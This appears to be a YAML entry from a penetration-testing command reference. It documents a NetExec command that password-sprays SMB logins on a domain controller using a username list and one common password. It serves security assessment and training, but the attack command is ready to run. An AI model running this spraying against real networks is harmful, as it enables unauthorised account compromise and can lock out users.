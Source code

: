 ```yaml
---
description: |
  "NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of large networks." - https://www.netexec.wiki/. This command will perform password spraying over SMB against the domain controller.

  Command Reference:

  	Domain Controller IP: 10.10.10.1

  	Username List: users.txt

  	Password: password123

command: |
  nxc smb 10.10.10.1 -u users.txt -p password123
items:
  - Username
services:
  - SMB
attack_types:
  - Exploitation
OS:
  - Linux
references:
  - https://github.com/Pennyw0rth/NetExec
  - https://www.netexec.wiki/
---
```

